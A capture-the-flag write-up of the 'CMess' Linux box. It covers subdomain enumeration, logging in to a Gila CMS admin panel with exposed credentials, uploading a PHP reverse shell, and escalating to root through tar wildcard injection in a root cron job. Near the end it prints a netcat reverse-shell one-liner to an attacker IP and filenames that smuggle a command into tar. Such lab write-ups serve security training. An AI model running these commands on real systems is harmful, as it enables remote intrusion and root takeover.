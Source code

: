 ## CMess
### OS = LINUX
### DIFFICULTY = MEDIUM

#### nmap scan
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8bd8e60b-d4a1-44c0-b81b-258334a1a04a)

we have 2 open ports

let's start our enumeration from port 80

going over to the web page shows that it is running GILA cms

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/cf983be5-438e-4287-88dc-0ca136cafe3f)

so, let's add the domain "cmess.thm" to our /etc/hosts file

Then bruteforcing subdomains using ffuf gives this

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/f313a0bf-71c3-4343-83d5-c49bc8248bbc)

which shows that there is subdomain "dev.cmess.thm"

Also add the subdomain to the /etc/hosts file too

let's go over to the web we have some creds which you can see below
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/061713fc-1194-40d4-8d11-72ff242bccaa)

so, let's try the credential on the admin login page 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/ca8084ad-7b89-4c18-a839-6f3837e1fa08)

wow it works and we can see the GILA CMS version

so, moving on to the content page on the dashboard for us to upload a reverse shell script in the file manager

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/41f5c718-cab6-4e97-9f97-7916bf6123d2)
so we're able to upload a php reverse shell

And set ur ncat listener then visit the assets directory to load the uploaded shell

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e84cd810-3054-4a73-981c-fca53b24de0e)

it spawned us a shell on the target system

we have our sweet reverse shell. so, stabilize it
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c3f9e157-3537-45e9-a1d4-35b28bc19cc8)
 so, we can see our privilege is limited
 let's try escalating privilege

 <h2>Privilege escalation</h2>

   Uploading linpeas on the box 
  
   we found a password back up file at the /opt dir
  
   it contains the password for user "andre"
  
   ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e547fd57-3b7e-468b-bcbe-4d71204d83ca)

 so sshing into the server using the username and password

 we're able to read the user flag now

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c95df228-8832-4e61-8115-9639ab8bdc81)

 Okay, so from this we know that there's a backup service running on the server, we can also see this from the linpeas report, and we also found the backed up file in the /tmp folder earlier when we were looking for user priv-esc. We can in fact see the exact command that is being run when the backup happens .
```  */2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz * ```
 There's a way to exploit tar if it uses wildcards, there is more info on it in this article
 [link](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) .

The name of the attack is Wildcard injection, and it's a way to make tar run an executable for us. Since the backup service is running as root, if we make this executable a reverse shell, then we got ourselves a root shell. 
set your netcat listener.

```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f" > shell.sh```

```2. echo ""> "--checkpoint-action=exec=sh shell.sh"```

```3. echo ""> --checkpoint=1```
   
And we are root lol ;)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a012c48a-9f56-4d95-ad31-b57caef3835b)

Thanks hope you had fun!


 For any enquiries shoot me a dm on twitter @  [link](https://twitter.co/0x_venus)










